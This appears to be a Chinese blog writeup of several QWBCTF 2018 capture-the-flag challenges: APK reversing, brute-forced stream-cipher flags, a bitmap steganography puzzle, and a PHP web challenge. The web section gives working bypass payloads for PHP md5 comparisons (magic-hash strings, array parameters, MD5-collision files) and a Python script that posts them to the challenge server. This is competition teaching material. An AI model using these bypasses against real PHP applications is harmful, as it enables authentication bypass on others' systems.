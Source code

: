 ```yaml
---
typora-root-url: ../img
layout:     post
title:      "QWBCTF 2018 Writeup"
subtitle:   "QWB{xxxxxxxxxxxxx}"
date:       2018-03-26 22:00 +0800
author:     "gsfish, ThTsOd, ydh"
header-img: "img/post-bg-hacker.jpg"
tags:
    - CTF
---
```



# 0x00 Reverse

## simplecheck

下载下来发现是个 zip 文件，打开后发现是 apk，用 jeb 载入并反编译

![01.png](/img/qwbctf-2018-writeup/01.png)

发现 `a` 是验证函数，跟入

![02.png](/img/qwbctf-2018-writeup/02.png)

转成 C 语言，各个位独立，暴力解出 flag

![03.png](/img/qwbctf-2018-writeup/03.png)

---

# 0x01 Crypto

## streamgame1

根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==25` 推测 flag 为 19 个二进制位，暴力解出 flag 即可

![04.png](/img/qwbctf-2018-writeup/04.png)

## streamgame2

和上题一样，根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==27` 推测 flag 为 21 个二进制位，暴力解出 flag 即可

![05.png](/img/qwbctf-2018-writeup/05.png)

## streamgame4

和上题一样，根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==27` 推测 `flag` 为 21 个二进制位，这里只验证 key 前 16 个字节，暴力解出 flag 即可

![06.png](/img/qwbctf-2018-writeup/06.png)

---

# 0x02 Misc

## welcome

下载下来发现是 dib 文件，用 16 进制编辑器打开，发现前 2 个字节是 `BM` 重命名为 bmp 后用 StegSolve 打开。用 Stereogram Solver 偏移量 `offset` 为 80 后发现 flag

![07.png](/img/qwbctf-2018-writeup/07.png)

---

# 0x03 Web

## Web 签到

第一关网页源码的提示人如下。可用 PHP 弱类型过掉，`param1=QNKCDZO`、`param2=s878926199a`：

```php
if($_POST['param1']!=$_POST['param2'] && md5($_POST['param1'])==md5($_POST['param2'])){
    die("success!");
}
```

第二关将等于换成了全等于，传进去一个数组即可，使 `md5()` 的结果为 `null`。`param1[]=123`、`param2[]=456`。

```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("success!");
}
```

第三关网页源码如下。由于使用了强制类型转换，传递对象则会转换为对象名称，因此只能使用 MD5 相等的字符串。使用 fastcoll 根据同一个文件生成了两个内容有差异，但 MD5 相同的文件 f1、f2，使用文件的二进制内容作为 param1、param2 参数。

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("success!);
}
```

使用脚本如下：

```python
import requests
session = requests.Session()
step1 = session.post("http://39.107.33.96:10000", data={
	"param1": "QNKCDZO",
	"param2": "s878926199a"
})
step2 = session.post("http://39.107.33.96:10000", data={
    "param1[]": "123",
    "param2[]": "456",
})
step3 = session.post("http://39.107.33.96:10000", data={
	"param1": open('f1', 'rb').read(),
	"param2": open('f2', 'rb').read()
})
print(step3.content)
```
